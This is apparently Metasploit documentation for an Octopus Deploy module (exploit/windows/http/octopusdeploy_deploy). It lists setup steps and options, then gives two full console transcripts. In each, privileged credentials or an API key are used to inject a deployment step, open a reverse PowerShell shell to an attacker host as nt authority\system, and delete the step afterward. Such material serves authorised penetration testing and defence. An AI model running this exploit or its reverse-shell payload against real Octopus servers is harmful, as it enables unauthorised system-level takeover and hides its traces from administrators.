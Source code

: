 ## Vulnerable Application

  [Install Octopus Deploy server](https://octopus.com/docs/getting-started#Gettingstarted-InstalltheOctopusserver)

  [Create a test user/team](https://octopus.com/docs/administration/managing-users-and-teams) - Team should have "Project contributor" and "Project deployer", or just "System administrator" and add your test user.

  [Create an API key](https://octopus.com/docs/how-to/how-to-create-an-api-key)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/octopusdeploy_deploy```
  4. Do: set ```PATH```, ```RHOST```, ```RPORT```, and ```SSL``` if needed
  5. Do: set ```STEPNAME``` if desired
  6. Do: set ```USERNAME``` and ```PASSWORD``` or just ```APIKEY```
  7. Do: ```run```
  8. You should get a shell.

## Options

  **APIKEY**

  API key, which can be generated within the Octopus Deploy application. Can be used instead of a username/password combination.

  **USERNAME**

  Username of the Octopus Deploy user.

  **PASSWORD**

  Password of the Octopus Deploy user.

  **PATH**

  Path to the Octopus Deploy instance. For example, if you sign in to "https://example.com/octopus/app", the value should be "/octopus".

  **STEPNAME**

  Name of the step to be added to a deployment. This may be visible in the application for a short period of time. A random value will be generated if no value is provided.

  **SSL**

  Enables or disables SSL. Octopus Deploy server can be configured to listen for HTTP or HTTPS traffic.

## Scenarios

### Octopus Deploy Server 3.16.0

  Getting a privileged shell on Octopus Deploy server using administrative credentials.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set USERNAME ODUser
USERNAME => ODUser
msf exploit(octopusdeploy_deploy) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step r4XAJc to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.2
[*] Creating release
[*] Release Releases-79 created
[*] Deploying TestProject2 version 0.0.2 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step r4XAJc from TestProject2
[*] Step r4XAJc deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59346) at 2017-05-15 19:54:01 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025358-22>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025358-22> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) >
  ```

  Getting a privileged shell on Octopus Deploy server using a sufficiently privileged API key.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > set APIKEY API-FCIQ773M43RKNC4I9KZHQTABC
APIKEY => API-FCIQ773M43RKNC4I9KZHQTABC
msf exploit(octopusdeploy_deploy) > set STEPNAME shell
STEPNAME => shell
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step shell to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.3
[*] Creating release
[*] Release Releases-80 created
[*] Deploying TestProject2 version 0.0.3 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step shell from TestProject2
[*] Step shell deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59373) at 2017-05-15 19:59:55 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025952-24>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025952-24> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) > 
  ```
